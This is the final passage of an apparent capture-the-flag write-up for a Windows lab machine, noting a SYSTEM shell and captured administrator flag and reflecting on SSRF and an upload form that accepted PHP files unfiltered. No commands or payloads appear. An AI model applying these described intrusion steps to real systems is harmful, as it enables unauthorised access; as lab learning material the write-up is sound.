
- we’ve got the shell and become
NT AUTHORITY/SYSTEM
Administrator Flag

Conclusion
I’ve learned a lot today. First, enumerate is the key. YES! it is important. I always heard SSRF and this machine introduces it to me and guess what. I’m so phreaking excited. Also, always ask yourself it is your web app is secure because like we know this machine web app doesn’t have any filter at the upload form and it’s even allowed php file to be uploaded at the photo upload form. Make sure to configure your machine properly.
I have a fun time doing this machine and I hope you guys do too. Bye ;)